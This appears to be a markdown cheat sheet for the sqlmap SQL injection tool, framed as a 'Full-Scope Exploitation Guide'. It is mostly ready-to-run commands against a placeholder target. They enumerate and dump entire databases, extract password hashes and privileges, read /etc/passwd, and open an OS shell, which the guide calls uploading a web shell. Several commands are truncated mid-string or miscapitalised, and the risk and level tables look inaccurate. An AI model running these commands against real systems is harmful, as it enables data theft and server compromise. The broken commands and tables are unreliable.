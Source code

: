
## 🧠 SQLMap: **Zero to Hero – Full-Scope Exploitation Guide**


## What is SqlMap ? 

- `sqlmap` is a fully automated **SQL injection and database takeover tool.**
- *It identifies vulnerabilities, fingerprints the DBMS, enumerates  databases/tables/users, extracts data, bypasses protections, and even drops backdoors.*

## 📚 II. Core SQL Injection Types sqlmap Handles

| Injection Type                    | Description                                          |
| --------------------------------- | ---------------------------------------------------- |
| ✅ **Boolean-based Blind**         | Responses differ based on true/false logic           |
| ✅ **Time-based Blind**            | Exploits query execution delays                      |
| ✅ **Error-based**                 | Uses DB error messages to extract info               |
| ✅ **UNION-based**                 | Combines multiple SELECTs to extract data            |
| ✅ **Stacked Queries**             | Executes multiple SQL queries in one shot            |
| ✅ **Inline Query / Second-Order** | Injection occurs in one request, executed in another |

---
## 🧪 III. Phase-by-Phase sqlmap Progression

### 1️⃣ **Recon & Basic Testing**

#### 🔧 Basic GET Param Injection

`sqlmap -u "http://target.com/page.php?id=1" --batch`
#### 🔧 POST Form Field Injection

`sqlmap -u "http://target.com/login.php" --data="username=admin&password=123" --batch`

### 2️⃣ **Database Discovery & Enumeration**

### 🎯 List DBMS & Banner

`sqlmap -u URL --banner
### 🎯 List Databases

`sqlmap -u URL --dbs`

### 🎯 List Tables in a DB

`sqlmap -u URL -D database_name --tables`

### 🎯 List Columns in a Table

`sqlmap -u URL -D database_name -T table_name --columns`

### 🎯 Dump Table Data

`sqlmap -u URL -D database_name -T table_name --dump`


### 3️⃣ **Authentication Handling**

#### 🔑 Cookie-Based Injection

`Sqlmap -u URL --cookie="session=abc 123*"`

#### 🔑 HTTP Basic Auth

`Sqlmap -u URL --auth-type=basic --auth-cred=user:pass`
#### 🔑 Login Form Session Preservation
-  Capture request in Burp → Save to request. Txt

`Sqlmap -r request. Txt --batch`


### 4️⃣ **Advanced Extraction Flags**

#### 🔐 Extract Passwords & Hashes

`sqlmap -u URL --passwords`

#### 🔐 Extract Usernames & Privileges

`sqlmap -u URL --users --roles --privileges`

#### 🔐 Extract File Content

`sqlmap -u URL --file-read="/etc/passwd"`

#### 💣 Upload Web Shell

`sqlmap -u URL --os-shell`


### 5️⃣ **Injection Target Precision**

### 🎯 Inject Into Cookie

`sqlmap -u URL --cookie="session=abc123*" --batch`

#### 🎯 Inject Into Headers

`sqlmap -u URL --headers="User-Agent: Mozilla/5.0*"`

#### 🎯 Inject Into POST Data

`sqlmap -u URL --data="search=abc*" --batch`

#### 🎯 Second-Order Injection

`sqlmap -u URL --data="username=abc" --second-order="http://targe`


## 6️⃣ **Payload Types and Modes**

| **Technique** | **Flag**        | **Description**     |
| ------------- | --------------- | ------------------- |
| **B**         | `--technique=B` | Boolean-based blind |
| **E**         | `--technique=E` | Error-based         |
| **U**         | `--technique=U` | UNION query-based   |
| **S**         | `--technique=S` | Stacked queries     |
| **T**         | `--technique=T` | Time-based blind    |
| **Q**         | `--technique=Q` | Inline queries      |

### 7️⃣ Real-World Scenarios (and flags)

#### 🔍 Authenticated Panel Injection

- Capture POST request after login
    
- Save to `login.txt`
    

`sqlmap -r login.txt --level=5 --risk=3 --technique=BEUSTQ --batch`

#### 🔍 API Token Injection

`sqlmap -u URL --headers="X-API-KEY: token123*" --batch`

#### 🔍 JSON Injection

`sqlmap -u URL --data='{"search":"abc*"}' --batch --headers="Conten`

# 🧠 8️⃣ Understanding sqlmap Intelligence

### 💡 Risk Levels:

|Risk|Description|
|---|---|
|1|Safe, non-destructive payloads|
|2|Adds UNION/stacked queries|
|3|Includes time-based / heavy tests|

### 💡 Level:

|Level|Description|
|---|---|
|1|Basic params (GET only)|
|5|Includes GET, POST, headers, cookies, User-Agent|

# 🧙‍♂️ 9️⃣ sqlmap: Black Belt Moves


## 🔄 Mirror Entire DB

`sqlmap -u URL --dump-all`